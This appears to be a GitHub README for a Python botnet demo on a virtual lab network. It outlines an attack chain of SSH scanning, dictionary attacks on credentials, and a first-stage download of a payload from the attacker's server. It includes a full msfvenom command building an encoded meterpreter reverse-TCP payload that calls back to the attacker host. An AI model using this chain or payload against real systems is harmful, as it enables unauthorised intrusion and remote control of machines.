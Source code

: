 # freshBot
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" scans virtual network, if it finds a node with ssh service<br>
running it performs a dictionary attack on it. Once, correct credentials are<br>
provided, 1st payload executes and directs target to download an "evil_file"<br>
from our web server.
<br>
<h1>The Environment Setup</h1><br>
<br>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4><br>
2. Our Web Server: <h4>192.168.203.1/evil_file</h4><br>
3. 4 target ssh servers on the same virtual network: <h4>ubuntu-16.04.5-desktop-amd64</h4>192.168.203.150<br>192.168.203.151<br>192.168.203.152<br>192.168.203.153<br>
4. Create payload: <h4>msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file</h4>
5. msf5 > <h4>exploit/multi/handler module</h4>
6. scan_drop.py <h4>Scans, Dictionary Attack, send 1st stage payload, RCE.</h4>
